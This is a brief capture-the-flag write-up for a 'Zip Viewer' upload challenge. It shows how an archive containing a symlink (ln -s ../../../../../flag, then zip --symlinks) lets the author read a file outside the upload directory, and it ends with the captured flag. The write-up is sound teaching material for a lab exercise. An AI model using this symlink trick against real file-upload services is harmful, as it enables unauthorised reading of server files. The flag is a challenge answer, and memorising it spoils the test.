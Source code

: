 
# Zip Viewer

Trying to upload a jpeg image I get this error message. It is unzipping the file you give it and then you can open it.

![image](https://user-images.githubusercontent.com/80063008/136174211-9703e9d5-d697-4825-90d1-99d4ec35c431.png)

Tried multiple things however creating a symlink is what worked: https://book.hacktricks.xyz/pentesting-web/file-upload#symlink

This is usually known as Zip Slip. 

On my machine I first created a file that was symlinked to the root, by going back a few folders and then going for the flag, assuming it is in root as it was in other challenges in this CTF.

```bash
ln -s ../../../../../flag symflag.txt
```
Compressed the file using the --symlinks argument and then upload it. Clicked on the symlinked file and got the flag.
```bash
zip --symlinks getflag.zip symflag.txt
```


![image](https://user-images.githubusercontent.com/80063008/136174276-f5c1f9a5-7151-4465-8a2a-e1fa444ea9fb.png)
![image](https://user-images.githubusercontent.com/80063008/136174285-fb8ea7a7-3336-4a40-b52a-52d1d7cb7eea.png)
![image](https://user-images.githubusercontent.com/80063008/136174294-66738ada-6423-492a-a4e2-e0449a30175d.png)






Flag: SNYK{d099a4c87b9ff06beabc0eb5ee186b93133fb2a9fff8d55582f932d1def8942c} 

